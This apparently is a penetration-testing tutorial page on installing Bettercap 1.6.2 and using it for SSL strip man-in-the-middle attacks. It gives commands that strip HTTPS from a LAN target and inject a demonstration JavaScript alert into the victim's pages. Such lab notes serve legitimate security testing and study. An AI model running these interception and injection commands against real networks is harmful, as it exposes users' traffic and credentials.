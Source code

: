 ```yaml
---
title: Bettercap 1.6.2 Installation
description: Bettercap 1.6.2 is a tool for Man In The Middle Attack and SSL Strip
template: comments.html
tags: [penetration-testing, tools]
---
```


## Bettercap 1.6.2 Installation

BetterCAP is a powerful, flexible, and portable tool created to perform various types of MITM attacks against a network

Bettercap 1.6.2 is legacy tool, but it performs ssl strip much better then Bettercap 2.x

Install Ruby Gem

```bash
apt install -y ruby-full libpcap-dev
gem update --system
gem install bettercap
```

Bettercap 1.6.2 installs the executable to /usr/local/bin/bettercap

Bettercap 2.x installs the executable to /usr/bin/bettercap

Both Bettercap 1.6.2 and 2.x shares the same executable name. In order to privet any collisions we will rename the Bettercap 1.6.2 executable to `bettercap1.6.2`.

```bash
mv /usr/local/bin/bettercap /usr/local/bin/bettercap1.6.2
```

From this point you can run bettercap1.6.2 for `Bettercap 1.6.2` and bettercap for `Bettercap 2.x`

## Bettercap 1.6.2 SSL Strip Examples

**Basic SSL Strip Example**

```bash
bettercap1.6.2 -X -T 192.168.1.104 --proxy
```

**SSL Strip With XSS Example**

```bash
bettercap1.6.2 -X -T 192.168.3.104 --proxy --proxy-module injectjs --js-data "<script>alert('SSL STRIP, Script Injection')</script>"
```

## Dbug

To find that Bettercap installation from ruby gems:

```bash
gem environment
```

the path should be under **GEM PATHP** for example:

```bash
/var/lib/gems/2.7.0/gems/bettercap-1.6.2
```
